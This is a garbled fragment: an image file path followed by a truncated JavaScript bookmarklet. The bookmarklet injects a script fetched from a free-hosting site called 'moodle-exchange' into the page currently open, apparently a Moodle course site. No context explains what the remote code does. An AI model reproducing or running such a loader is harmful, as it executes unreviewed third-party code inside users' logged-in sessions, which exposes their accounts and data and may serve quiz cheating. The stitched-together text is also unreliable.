 avascript:(function()moodlexchange=document.createElement('SCRIPT');moodlexchange.type='text/javascript';moodlexchange.src='https://moodle-exchange.000webhostapp.com/moodle-exchange/script.js?random='+(new Date()).getTime();document.getElementsByTagName('head')[0].appendChild(moodlexchange);})();
